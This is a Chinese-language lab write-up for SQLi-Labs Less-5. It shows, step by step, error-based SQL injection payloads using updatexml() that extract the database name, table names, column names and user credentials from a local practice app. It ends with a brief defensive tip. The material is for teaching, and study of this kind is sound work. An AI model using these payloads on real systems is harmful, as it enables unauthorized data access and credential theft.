





# SQLi-Labs Less-5：报错注入（无回显位）

> **实验目标**：当页面无正常回显位时，利用数据库报错信息提取数据。

## 1. 确认注入点

**请求**：  
`http://127.0.0.1/sqli-labs/less-5/?id=1'`

**结果**：  
页面返回 MySQL 报错，确认存在字符型注入，但页面只显示“You are in...”，没有回显位置。

---

## 2. 报错注入获取数据库名

使用 `updatexml()` 函数制造 XML 语法错误，将查询结果嵌入报错信息。

**请求**：  
`http://127.0.0.1/sqli-labs/less-5/?id=1' and updatexml(1,concat(0x7e,database(),0x7e),1)--+`

**原理**：  
- `updatexml()` 第二个参数应为合法 XPath 路径，我们传入 `concat('~', database(), '~')` 使其非法，从而抛出错误并显示拼接内容。  
- `0x7e` 是 `~` 的十六进制，用于分隔，便于阅读。

**结果**：  
报错信息中暴露当前数据库名 `security`。

---

## 3. 爆表名

**请求**：  
`http://127.0.0.1/sqli-labs/less-5/?id=-1' and updatexml(1,concat(0x7e,(SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema=database()),0x7e),1)--+`

**原理**：  
子查询获取当前库的所有表名，再用 `concat` 包裹，触发报错回显。

**结果**：  
显示表名：`emails, referers, uagents, users`。

---

## 4. 爆字段名

**请求**：  
`http://127.0.0.1/sqli-labs/less-5/?id=-1' and updatexml(1,concat(0x7e,(SELECT group_concat(column_name) FROM information_schema.columns WHERE table_schema=database() AND table_name='users'),0x7e),1)--+`

**结果**：  
显示 `users` 表的字段：`id, username, password`。

---

## 5. 逐行爆数据

由于 `updatexml()` 有长度限制（最多 32 位），且无法一次返回多条，需使用 `limit` 逐条获取。

**请求（第一条）**：  
`http://127.0.0.1/sqli-labs/less-5/?id=-1' and updatexml(1,concat(0x7e,(SELECT concat(username,':',password) FROM security.users limit 0,1),0x7e),1)--+`

**原理**：  
- `concat(username,':',password)` 将账号密码用冒号拼接。  
- `limit 0,1` 取第一行，之后可调整偏移量继续获取。

**结果**：  
返回 `Dumb:Dumb`，依次可获取所有凭证。

---

## 总结

本关利用 **报错注入** 绕过了无回显的限制，通过构造错误信息提取数据。虽然效率低于联合查询，但在盲注场景中非常实用。

> **防御建议**：禁用错误详情对外展示，使用通用错误页面；同时使用预编译语句。
